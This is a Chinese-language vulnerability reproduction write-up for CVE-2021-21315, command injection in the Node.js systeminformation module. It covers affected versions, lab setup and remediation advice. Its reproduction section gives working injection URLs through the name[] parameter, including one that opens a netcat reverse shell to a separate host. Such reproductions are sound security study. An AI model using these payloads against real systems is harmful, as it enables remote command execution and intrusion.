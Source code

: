## CVE-2021-21315 NodeJs命令注入漏洞复现

Node.js是一个基于Chrome V8引擎的JavaScript运行环境，用于方便的搭建响应速度快、易于拓展的网络应用。Node使用Module模块划分不同的功能，每一个模块都包含非常丰富的函数，如http就包含了和http相关的很多函数，帮助开发者对http、tcp/udp等进行操作或创建相关服务器。

## 0x01 漏洞概述

Node.js-systeminformation是用于获取各种系统信息的Node.js模块,在存在命令注入漏洞的版本中，攻击者可以通过未过滤的参数中注入payload执行系统命令。

## 0x02 影响版本

> Systeminformation<5.3.1

## 0x03 环境搭建

本次测试环境使用的是kali 2020.4版本，首先下载受影响的Node.js,这里使用的是v12.18.4。

> wget https://nodejs.org/dist/v12.18.4/node-v12.18.4-linux-x64.tar.xz

解压

> tar -xvf node-v12.18.4-linux-x64.tar.xz

为了后续方便，更换文件名字为nodejs，并将该文件移至 /usr/local/sbin/目录下

> mv node-v12.18.4-linux-x64 nodejs
> mv nodejs/ /usr/local/sbin/

更换文件node和npm的软连接

> ln -s /usr/local/sbin/nodejs/bin/node /usr/local/bin/
> ln -s /usr/local/sbin/nodejs/bin/npm /usr/local/bin/

运行node.js看是否配置成功

## 0x04 漏洞复现

解压poc, poc链接https://github.com/ForbiddenProgrammer/CVE-2021-21315-PoC

运行 index.js

浏览器打开

> http://ip:8000/api/getServices?name[]=$(echo -e 'zeeker' > test.txt)

这里直接指向本地

查看本地，发现存在test.txt文件

利用nc反弹shell

```
http://127.0.0.1:8000/api/getServices?name[]=$(nc -e /bin/bash 192.168.11.134 7777)
```

## 0x05 修复建议

该漏洞已经修复，将systeminformation升级至5.3.1或更高版本即可

链接：https://www.npmjs.com/package/systeminformation

若无法升级，检查或清理传递给 si.inetLatency()、si.inetChecksite()、si.services()、si.processLoad() 的参数，只允许使用 string，拒绝使用任何数组。
